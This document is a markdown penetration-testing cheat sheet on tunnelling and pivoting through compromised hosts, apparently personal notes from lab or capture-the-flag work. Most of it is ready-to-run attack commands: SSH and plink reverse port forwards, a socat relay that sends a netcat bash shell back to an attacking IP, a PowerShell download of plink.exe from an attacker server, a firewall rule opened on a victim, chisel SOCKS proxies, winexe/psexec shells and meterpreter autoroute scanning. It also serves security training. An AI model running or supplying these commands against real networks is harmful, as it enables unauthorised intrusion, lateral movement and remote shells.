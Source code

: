 # Port Forwarding/Tunneling and Pivoting

### SSH Tunnelling / Port Forwarding

For example, if we had SSH access to 172.16.0.5 and there's a webserver running on 172.16.0.10, we could use this command to create a link to the server on 172.16.0.10.

```
ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN
```

We could then access the website on 172.16.0.10 (through 172.16.0.5) by navigating to port 8000 on our own attacking machine.

Proxies are made using the -D switch, for example: -D 1337. This will open up port 1337 on your attacking box as a proxy to send data through into the protected network. This is useful when combined with a tool such as proxychains. An example of this command would be:

```
ssh -D 1337 user@172.16.0.5 -fN
```

#### Reverse Connections

Generate a keypair:

```
ssh-keygen
```

Copy the contents of the public key (the file ending with .pub), then edit the ~/.ssh/authorized_keys file on your own attacking machine. You may need to create the ~/.ssh directory and authorized_keys file first.
On a new line, type the following line, then paste in the public key:

```
command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty INSERT_PUBLIC_KEY
```

This makes sure that the key can only be used for port forwarding, disallowing the ability to gain a shell on your attacking machine.

The only thing left is to do the unthinkable: transfer the private key to the target box. This is usually an absolute no-no, which is why we generated a throwaway set of SSH keys to be discarded as soon as the engagement is over.

With the key transferred, we can then connect back with a reverse port forward using the following command:

```
ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN
```

To put that into the context of our fictitious IPs: 172.16.0.10 and 172.16.0.5, if we have a shell on 172.16.0.5 and want to give our attacking box (172.16.0.20) access to the webserver on 172.16.0.10, we could use this command on the 172.16.0.5 machine:

```
ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN
```

This command can be used to create a reverse proxy in clients which do support it:

```
ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN
```

To close any of these connections, type ps aux | grep ssh into the terminal of the machine that created the connection.

Finally, type `sudo kill PID` to close the connection.

### Plink

Download `plink.exe`

```
C:\Users\Alfred>powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.8/plink.exe', 'plink.exe')"
```

Start SSH service on our attacking box.

```
root@kali:~# service ssh start
```

Run `plink.exe`

```
C:\Users\Alfred>plink.exe -l root -pw  -R 445:127.0.0.1:445 ATK_IP

Or

C:\Users\Alfred>plink.exe -l root@ATK_IP -R 445:127.0.0.1:445

Or

cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
```

Note that any keys generated by ssh-keygen will not work properly here. You will need to convert them using the puttygen tool, which can be installed on Kali using `sudo apt install putty-tools`. After downloading the tool, conversion can be done with:
`puttygen KEYFILE -o OUTPUT_KEY.ppk`
Substituting in a valid file for the keyfile, and adding in the output file.

Use `winexe` to get a shell

```
root@kali:~# winexe -U Administrator //127.0.0.1 "cmd.exe"
root@kali:~# winexe -U 'admin@password123' //127.0.0.1 cmd.exe

or

psexec.py USER:PASSWORD@IP cmd.exe
```

### Socat

#### Reverse Shell Relay

First let's start a standard netcat listener on our attacking box

```bash
sudo nc -lvnp 443
```

Next, on the compromised server, use the following command to start the relay:

```
./socat tcp-l:20000 tcp:ATTACKING_IP:443 &
./nc 127.0.0.1 20000 -e /bin/bash
```

#### Port Forwarding

- Easy
  On the compromised server

```
./socat tcp-l:LOCAL_PORT,fork,reuseaddr tcp:TARGET_IP:TARGET_PORT &
```

- Quiet

On the attacking machine

```
socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```

On the compromised relay server

```
./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
```

Check localhost:8000 on the attacker machine to see the port available on the intended target.

### Chisel

#### Reverse SOCKS Proxy

On the attacking machine start the server

```
./chisel server -p 8081 -reverse

./chisel server -p LISTEN_PORT --reverse &
```

On the target machine start the listening client

```
.\chisel.exe client 10.10.14.97:8081 R:8888:127.0.0.1:8888

./chisel client ATTACKING_IP:LISTEN_PORT R:socks &
```

#### Forward SOCKS Proxy

Open port in windows firewall

```
netsh advfirewall firewall add rule name="Chisel-MuirlandOracle" dir=in action=allow protocol=tcp localport=47000
```

First, on the compromised host we would use:

```
./chisel server -p LISTEN_PORT --socks5
```

On our own attacking box we would then use:

```
./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks
```

### sshuttle

```bash

sshuttle -r user@172.16.0.5 172.16.0.0/24

sshuttle -r user@172.16.0.5 --ssh-cmd "ssh -i private_key" 172.16.0.0/24

sshuttle -r root@10.200.198.200 --ssh-cmd "ssh -i id_rsa" 10.200.198.0/24 -x 10.200.198.200
```

## Pivoting

Post exploitation on a windows machine. Find what machine the target is talking to

```
arp -a
```

On a meterpreter shell

```
run autoroute -s 10.10.10.0/24

List routes

run autoroute -p

background

use autiliary/scanner/portscan/tcp
set PORTS 80, 8080, 445, 21, 22
set RHOSTS 192.69.228.3-10
exploit

Back on the meterpreter session
portfwd add -l 1234 -p 21 -r 192.58.241.3
portfwd list

nmap -sS -sV -p 1234 localhost
use auxiliary/scanner/portscan/tcp
```

### Ping Sweeps

```
bash
for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done

netcat
for i in {1..65535}; do (echo > /dev/tcp/192.168.1.1/$i) >/dev/null 2>&1 && echo $i is open; done
```

### Further information and Links

* [Pentesting Pivoting Guide](https://github.com/t3l3machus/pentest-pivoting)